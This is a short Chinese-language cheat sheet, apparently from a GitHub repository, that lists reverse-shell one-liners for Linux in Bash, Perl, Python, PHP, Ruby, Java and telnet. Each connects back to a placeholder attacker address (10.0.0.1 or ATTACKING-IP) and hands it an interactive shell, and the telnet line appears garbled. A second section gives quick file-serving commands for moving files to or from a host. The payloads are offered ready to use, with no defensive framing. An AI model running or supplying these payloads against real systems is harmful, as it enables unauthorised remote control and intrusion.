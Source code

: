 #Linux环境
##反弹shell的方法
**Bash [不通用，跟linux发行版本有关，在ubuntu上测试成功]**

	bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
	
**PERL**

	perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
	
**Python**

	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

**PHP**

	php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

**Ruby**

	ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

**Java**

	r = Runtime.getRuntime()
	p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
	p.waitFor()

**Telnet**

	 rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
	 
##文件传输

**Python**

    python2 -m SimpleHTTPServer 8000

    python3 -m http.server 8000
    
    python -m pyftpdlib -p 2121
    
**Ruby**

     ruby -run -ehttpd . -p8000  #ruby -run -ehttpd 路径 -p端口

**PHP**

    php -S 0.0.0.0:8000 -t /var/   #用法： php -S IP:端口  -t 服务器根路径




